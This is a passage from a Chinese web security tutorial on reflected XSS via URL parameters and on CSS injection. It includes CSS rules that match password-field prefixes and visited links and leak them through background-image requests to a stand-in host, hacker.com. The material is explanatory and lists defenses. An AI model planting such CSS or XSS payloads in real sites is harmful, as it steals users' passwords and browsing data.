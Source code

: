 

## 扩展：使用 URL 的攻击方式

这种攻击方式被称为 “反射式 XSS”。考虑以下场景：
某个搜索引擎网站，其搜索参数为 `?search=<搜索词>`，提交后搜索详情页有一处 DOM 会展示：`"当前搜索内容为：<搜索词>"`，这里的搜索词源自从 URL 中解析出的搜索词。这样类似的场景还有很多，不局限于搜索引擎类的站点。

![](../images/image-20240622010923502.png)

这样的页面设计，如果没有安全方面的意识，就会给恶意用户可乘之机。

如果页面上显示的搜索词直接来自服务端渲染，黑客则可以构建非法 URL；
例如：构造一个地址 `?search=%3Cscript%3E%3C%2Fscript%3E`，解析 URL 参数会得到 `"<script></script>"`，然后被服务器直接放入 HTML 中展现给浏览者，这个网页就具备了执行恶意代码的能力。
黑客在这对 `<script>` 标签中添加一些 JS 代码，并把这个 URL 发给其他用户，或伪造成超链接，骗取其他用户点击，这便会导致用户的隐私泄露。

这种反射型 XSS，防御起来也不难，除了使用上面的 CSP、安全过滤等方式来防御之外，还可以使用 `innerText`、`textContent` 的前端实现方式来展示这些内容。



## 扩展：CSS 也能注入攻击

有些网站允许用户自定义主题，用户可以插入自己的 CSS，实际上，CSS 也可以实现注入攻击，甚至比 XSS 更难防御。

例如，某类似 QQ 空间的网站为了支持自定义主题，允许用户上传 CSS，于是某恶意用户上传如下 CSS：

```css
input[value^='1'][type='password'] {
  background-image: url('https://hacker.com/?input=1');
}
input[value^='2'][type='password'] {
  background-image: url('https://hacker.com/?input=2');
}

/* ...各种字符组合 */

input[value^='11'][type='password'] {
  background-image: url('https://hacker.com/?input=11');
}

/* ...各种字符组合 */

input[value^='112'][type='password'] {
  background-image: url('https://hacker.com/?input=112');
}

/* ...各种字符组合 */
```

这样，只要任意用户访问别人的空间时，点击页面上的登录控件，注入的 CSS 就会对密码输入框生效，用户登录的密码前缀匹配这些规则，浏览器就会请求背景图对应的 URL，以此导致用户密码泄露。

此外，恶意用户可以利用 CSS 的 `:nth-child`、`:visited` 等伪类，达到窃取隐私的目的：

```css
a:nth-child(1):visited {
  background-image: url('https://hacker.com/?vi=1');
}
a:nth-child(2):visited {
  background-image: url('https://hacker.com/?vi=2');
}
a:nth-child(3):visited {
  background-image: url('https://hacker.com/?vi=3');
}
/* ... */
```
